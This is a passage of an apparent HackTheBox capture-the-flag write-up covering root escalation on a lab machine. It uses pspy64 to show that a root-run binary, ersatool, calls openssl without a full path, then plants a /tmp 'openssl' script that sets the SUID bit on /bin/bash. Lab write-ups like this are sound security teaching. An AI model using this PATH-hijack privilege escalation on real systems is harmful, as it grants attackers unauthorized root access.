 ## Root

We again have a shell as www-data, but this time it's on the pki machine. Naturally, I'm curious about this ersatool we kept seeing pop up, it looks like root owns it, but everyone can execute it:
```
www-data@pki:~/html$ ls -lah /usr/bin/ersatool
ls -lah /usr/bin/ersatool
-rwxr-xr-x 1 root root 22K Jun 21 17:05 /usr/bin/ersatool
```

Running file on the binary shows us it's some type of compiled executable:
```
www-data@pki:~/html$ file /usr/bin/ersatool
file /usr/bin/ersatool
/usr/bin/ersatool: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=961368a18afcdeccddd1f423353ff104bc09e6ae, not stripped
```

It's worth checking to see if they left the source code on the machine:
```
www-data@pki:~/html$ find / -type f -name "*.c" 2>/dev/null |grep ".c"  
find / -type f -name "*.c" 2>/dev/null |grep ".c"
/usr/share/bison/glr.c
/usr/share/bison/yacc.c
/usr/src/ersatool.c   <------ We found the source!
/usr/include/glib-2.0/gobject/gobjectnotifyqueue.c
/php-src/Zend/zend_objects.c
```

Next, I used my pivot access to get pspy64 onto the pki machine. This is a process monitor type tool that shows me everything that starts up or is running on the machine.

I first start pspy64 to being monitoring the pki box's processes, then I run the ersatool again. We see in the pspy64 output that it calls openssl without a full path. Maybe we can take advantage of the PATH and have the ersatool binary call our own openssl script or binary. Since the full path wasn't given, ersatool will first look in the current working directory or where it's executed from.

Let's set that up:
```text
www-data@pki:/tmp$ echo '#!/bin/bash' > openssl
www-data@pki:/tmp$ echo 'chmod u+s /bin/bash' >> openssl
www-data@pki:/tmp$ cat openssl
cat openssl
#!/bin/bash
chmod u+s /bin/bash
```

This is a simple bash script that sets the SUID bit on the /bin/bash binary. We're only able to set the bit because the ersatool binary runs as root. 

Now, let's run the ersatool from the /tmp directory where our own openssl script exists:
```text
www-data@pki:/tmp$ /usr/bin/ersatool create owned
```


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu
[3]: https://totp.danhersam.com/
[4]: https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
[5]: https://github.com/neex/phuip-fpizdam